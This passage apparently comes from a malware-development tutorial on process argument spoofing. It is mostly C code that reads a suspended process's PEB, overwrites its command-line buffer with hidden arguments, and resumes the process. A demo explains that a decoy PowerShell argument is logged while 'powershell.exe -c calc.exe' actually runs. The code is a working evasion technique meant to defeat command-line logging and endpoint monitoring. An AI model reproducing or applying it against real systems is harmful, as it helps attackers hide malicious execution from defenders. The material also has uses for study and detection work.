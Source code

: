 ```
		return FALSE;
	}

	// Reading the PEB structure from its base address in the remote process
	if (!ReadFromTargetProcess(Pi.hProcess, PBI.PebBaseAddress, &pPeb, sizeof(PEB))) {
		printf("\t[!] Failed To Read Target's Process Peb \n");
		return FALSE;
	}

	// Reading the RTL_USER_PROCESS_PARAMETERS structure from the PEB of the remote process
	// Read an extra 0xFF bytes to ensure we have reached the CommandLine.Buffer pointer
	// 0xFF is 255 but it can be whatever you like
	if (!ReadFromTargetProcess(Pi.hProcess, pPeb->ProcessParameters, &pParms, sizeof(RTL_USER_PROCESS_PARAMETERS) + 0xFF)) {
		printf("\t[!] Failed To Read Target's Process ProcessParameters \n");
		return FALSE;
	}

	// Writing the real argument to the process
	if (!WriteToTargetProcess(Pi.hProcess, (PVOID)pParms->CommandLine.Buffer, (PVOID)szRealArgs, (DWORD)(lstrlenW(szRealArgs) * sizeof(WCHAR) + 1))) {
		printf("\t[!] Failed To Write The Real Parameters\n");
		return FALSE;
	}


	// Cleaning up
	HeapFree(GetProcessHeap(), NULL, pPeb);
	HeapFree(GetProcessHeap(), NULL, pParms);

	// Resuming the process with the new paramters
	ResumeThread(Pi.hThread);

	// Saving output parameters
	*dwProcessId     = Pi.dwProcessId;
	*hProcess        = Pi.hProcess;
	*hThread         = Pi.hThread;

	// Checking if everything is valid
	if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
		return TRUE;

	return FALSE;
}


```
### **Demo**

`powershell.exe Totally Legit Argument` is the dummy argument that will be logged whereas `powershell.exe -c calc.exe` is the payload that is executed.

[![](48%20Process%20Argument%20Spoofing%20(1)%20b427dcafb59043239840f40c0ab8dc81/arg-spoof-309567835-eed3b698-80d0-4a39-ae98-7d2f4120a9a3.png)](48%20Process%20Argument%20Spoofing%20(1)%20b427dcafb59043239840f40c0ab8dc81/arg-spoof-309567835-eed3b698-80d0-4a39-ae98-7d2f4120a9a3.png)